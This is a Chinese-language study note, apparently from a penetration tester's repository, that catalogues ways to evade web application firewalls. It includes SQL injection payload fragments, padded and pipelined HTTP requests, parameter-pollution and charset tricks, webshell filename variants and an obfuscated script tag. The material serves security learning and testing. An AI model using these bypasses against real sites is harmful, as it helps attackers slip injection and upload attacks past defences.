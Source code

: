 ## 概述
通用的方法，不仅限于SQL注入，就是万金油，无非就是大小写、双写、编码、注释、垃圾字符、分块传输、HPP、WAF特性等
**核心：**所有能改的地方，都捣鼓捣鼓改改，增加就加，能删就删，多拿点其他内容来混淆视听。
## 大小写
```sql
unIoN Select
```
## 双写
一些后端可能会直接给关键词过滤为空，那么就可以利用双写来绕过
```sql
ununionion ==> 去掉union ==> union
```
## 编码

1. URL编码
2. Unicode编码
3. 十六进制编码
4. 其他后端会解析的编码
## 注释
如mysql中的内联注释，可以用来代替空格
注释也可以和换行搭配使用，注释掉后面的内容，再通过换行逃逸到注释之外
```sql
test.php?id=1 /*!order*//**/%23A%0A/**/%23A%0A/*!by*//**/2
```
## 垃圾字符
一些WAF设置了过滤的数据包长度，如果数据包太大太长，为了考虑性能就会直接略过这个数据包
```http
GET /foo?sqli=111...80万个1...111'+and+2*3=6+--+ HTTP/1.1
User-Agent: Mozilla/5.0
Host: Host
Accept: */*
```
## 分块传输
burp插件：[https://github.com/c0ny1/chunked-coding-converter.git](https://github.com/c0ny1/chunked-coding-converter.git)
在头部加入 `Transfer-Encoding: chunked` 之后，就代表这个报文采用了分块编码。这时，post请求报文中的数据部分需要改为用一系列分块来传输。每个分块包含十六进制的长度值和数据，长度值独占一行，长度不包括它结尾的，也不包括分块数据结尾的，且最后需要用0独占一行表示结束。
## HTTP协议绕过
### HTTP 0.9
HTTP 0.9协议只有GET方法，且没有HEADER信息等，WAF就可能认不出这种的请求包，于是达到绕过WAF的效果
### 参数污染（HPP）
简单来说，存在多个同名参数的情况下，可能存在逻辑层和WAF层对参数的取值不同，即可能逻辑层使用的第一个参数，而WAF层使用的第二个参数，我们只需要第二个参数正常，在第一个参数插入payload，这样组合起来就可以绕过WAF，如下数据包：
```http
GET /foo?par=first&par=last HTTP/1.1
User-Agent: Mozilla/5.0
Host: Host
Accept: */*
```
**部分中间件的处理方法：**

| Web环境 | 参数获取函数 | 获取到的参数 |
| --- | --- | --- |
| PHP/Apache | $_GET("par") | last |
| JSP/Tomcat | Request.getParameter("par") | first |
| Perl(CGI)/Apache | Param("par") | first |
| Python/Apache | getvalue("par") | ["first","last"] |
| ASP.NET/IIS | Request.QueryString("par") | first,last |

### Pipeline（keep-alive）
http请求头部中有`Connection`这个字段，建立的tcp连接会根据此字段的值来判断是否断开，当发送的内容太大，超过一个http包容量，需要分多次发送时，值会变成`keep-alive`，即本次发起的http请求所建立的tcp连接不断开，直到所发送内容结束`Connection`为`close`为止
我们可以手动将此值置为keep-alive，然后在http请求报文中构造多个请求，将恶意代码隐藏在第n个请求中，从而绕过waf
> 记得把brupsuite自动更新`Content-Length`的勾去掉

![](./WAF绕过通用思路.assets/2023_05_19_10_40_04_ULSr62Qq.png)
大概数据包就是这样
```http
POST / HTTP/1.1
Host: www.baidu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
a=1GET / HTTP/1.1
Host: www.baidu.com
User-Agent: Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.7113.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Connection: close
```
### HTTP charset
利用`Content-Type: xxx;charset=xxx`编码绕过，payload转义后，由于大部分的WAF默认用UTF8编码检测，所以能用此方法来达到绕过关键词过滤的效果
```
application/x-www-form-urlencoded; charset=ibm037
multipart/form-data; charset=ibm037, boundary=blah
multipart/form-data; boundary=blah ; charset=ibm037
```
## WAF特性
### 云WAF绕过
找到真实IP，修改本地hosts文件或者直接在burp中指定解析，避免流量走到云WAF上即可。
![](./WAF绕过通用思路.assets/2023_05_19_10_40_05_v4inr7at.png)
### 白名单绕过
一些WAF为了保证核心功能如登陆功能正常，会在内部设立一个文件白名单，或内容白名单，只要和这些文件或内容有关，无论怎么测试，都不会进行拦截。
如：WAF设立了白名单`/admin`，那么我们的测试payload可以通过如下的手法来绕过
```sql
# 原来被拦截
http://a.a/?id=123 and 2*3=6
# 现在不拦截
http://a.a/?a=/admin&id=123 and 2*3=6
```
### 静态文件绕过
一些WAF为了减少服务器的压力，会对静态文件如`.png`、`.css`等直接放行，那么我们可以尝试伪装成静态文件来绕过
如：
```sql
# 原来被拦截
http://a.a/?id=123 and 2*3=6
# 现在不拦截
http://a.a/?1.jpg&id=123 and 2*3=6
```
### Content-Type绕过
一些WAF识别到特定的content-type后，则会判定为该请求的类型，如：
发现`Content-Type`为`multipart/form-data`时，会认为这属于文件上传的请求，从而只检测文件上传漏洞，导致不拦截其他类型的payload
### 请求方式绕过

1. 一些WAF对于`get`请求和`post`请求的处理机制不一样，可能对POST请求稍加松懈，因此给`GET`请求变成`POST`请求有可能绕过拦截。
2. 一些WAF检测到`POST`请求后，就不会对`GET`携带的参数进行过滤检测，因此导致被绕过。



### 解析兼容性
一些WAF检测时，完全按照标准的HTTP协议去匹配，但WEB容器会做一些兼容性适配，如上传时
```
filename="shell.php"
```
我们只需要稍加修改，那么按照标准协议去解析就找不到文件名，从而绕过拦截
```
filename="shell.php
filename='shell.php'
filename=shell.php
```
## 容器特性
> [!tip]
> 可通过所有fuzz一遍，看看容器是如何处理的

**IIS+ASP：**

1. `%`会被自动去掉
2. unicode会自动解码



```
<script> == <%s%cr%u0131pt>
```
**tomcat:**
路径穿越
```
/path1/path2/ == ;/path1;foo/path2;bar/;
```
## 参考

- [waf绕过拍了拍你](https://www.anquanke.com/post/id/212272)

